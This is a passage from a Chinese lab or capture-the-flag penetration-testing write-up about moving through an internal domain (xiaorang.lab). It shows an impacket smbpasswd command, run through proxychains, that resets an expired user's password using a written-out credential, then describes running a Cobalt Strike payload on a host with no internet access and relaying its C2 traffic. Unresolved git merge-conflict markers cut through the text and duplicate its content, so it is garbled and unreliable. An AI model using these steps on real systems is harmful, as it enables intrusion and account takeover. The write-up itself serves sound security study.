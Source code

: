 发现是可以登录 172.22.8.46 这台主机的，但是提示 STATUS\_PASSWORD\_EXPIRED

也就是密码过期了，需要使用 smbpasswd 进行修改密码

<<<<<<< HEAD
```plain
proxychains -q python3 impacket-master/examples/smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'csy666zz!'
```

[![](assets/1710898702-a348ebca4ecfa0350092d59509009ca8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095453-d9afb9d6-e1a5-1.png)
=======
```bash
proxychains -q python3 impacket-master/examples/smbpasswd.py xiaorang.lab/Aldrich:'Ald@rLMWuy7Z!#'@172.22.8.15 -newpass 'csy666zz!'
```

[![](assets/1710465355-a348ebca4ecfa0350092d59509009ca8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095453-d9afb9d6-e1a5-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

之后把 proxyfier 的配置换为 socks4，之后远程连接即可

利用 CS 生成一个 x64exe，直接运行，发现并没有上线，发现机器是不出网的

<<<<<<< HEAD
[![](assets/1710898702-470ea51b38a69853ae8c745b455b5f7f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095458-dcfbe8bc-e1a5-1.png)

这个时候就要利用 CS 的转发上线了

[![](assets/1710898702-fd671909ffcf6c92c9474b9d7d60e70f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095502-df6e632c-e1a5-1.png)
=======